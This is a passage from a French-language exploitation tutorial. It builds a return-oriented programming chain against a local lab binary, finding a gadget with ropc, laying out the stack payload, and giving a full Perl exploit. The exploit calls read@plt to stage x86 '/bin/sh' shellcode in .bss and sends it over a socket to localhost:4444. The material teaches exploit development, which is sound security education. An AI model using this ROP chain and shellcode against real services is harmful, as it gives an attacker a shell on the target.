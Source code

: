 On a également besoin d'un gadget pour dépiler les arguments de read :

```
	$ ropc -f ./a.out -g -F | grep pop
	0x080484bd  -> pop esi ; pop edi ; pop ebp ; ret ;
```

On a tout ce qu'il faut pour réaliser notre exploit !
Notre payload ressemblera à :

```
    [ PADDING          ]
    [ read@plt         ] <--- (saved-eip)
    [ pop3; ret        ]
    [ STDIN            ]
    [ Address de .bss  ]
    [ shellcode len    ]
    [ Adresse .bss     ]
```

Voici l'exploit commenté (en Perl of course) :

```perl
	#!/usr/bin/perl

	use strict;
	use warnings;
	use IO::Socket::INET;

	my $sock = IO::Socket::INET->new(PeerAddr => 'localhost',
									 PeerPort => 4444,
									 Proto    => 'tcp');

	die("Can't connect : $!\n") if(!$sock);

	my $buff;

	my $shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68" .
                    "\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

	my $payload;
	my $bss = 0x08049720;
	my $read_plt = 0x080482d0;
	my $pop3_ret = 0x080484bd;

	# Buffer len
	$payload .= pack('L', 292);

	# Padding
	$payload .= "A"x268;

	# Read@plt function
	$payload .= pack('L', $read_plt);
	$payload .= pack('L', $pop3_ret);
	$payload .= pack('L', 0);
	$payload .= pack('L', $bss);
	$payload .= pack('L', length $shellcode);

	$payload .= pack('L', $bss);

	# Send payload
	print $sock $payload;

	sleep(1);

	# The payload is executed, now you can send your shellcode !
	print $sock $shellcode;
```
